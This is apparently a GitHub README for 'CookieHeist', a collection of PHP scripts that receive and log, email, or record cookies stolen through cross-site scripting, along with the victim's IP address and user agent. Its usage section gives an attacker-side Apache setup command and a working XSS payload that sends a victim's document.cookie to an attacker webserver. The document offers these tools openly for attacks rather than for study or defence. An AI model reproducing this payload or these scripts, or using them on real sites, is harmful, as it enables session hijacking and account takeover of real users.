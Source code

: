 # CookieHeist
PHP Cookie Stealing Scripts for use in XSS

1. Cookiesteal-simple.php - Records whatever "c" parameter holds, in example case the document.cookie string, writes value to cookielog.txt. 

2. Cookiesteal-simple-v2.php - Records whatever "c" parameter holds, writes value to cookielog.txt and redirects to Google.com.

3. Cookiemail.php - This version code will mail the cookies to hacker mail using the PHP() mail function with subject “Stolen cookies”.

4. Cookiesteal-v.php (verbose) - Collects the IP address, port number, host(usually computer-name), user agent and cookie.

## Usage
1. On the attacker machine, start the webserver (Apache2 in example):
sudo service apache2 start

Example: http://[Attacker Webserver]/cookiesteal-simple.php?c=document.cookie

XSS Payload Example: <script javascript:text>document.location="http://[Attacker Webserver]?c=" + document.cookie + "&t=Alert"; </script>
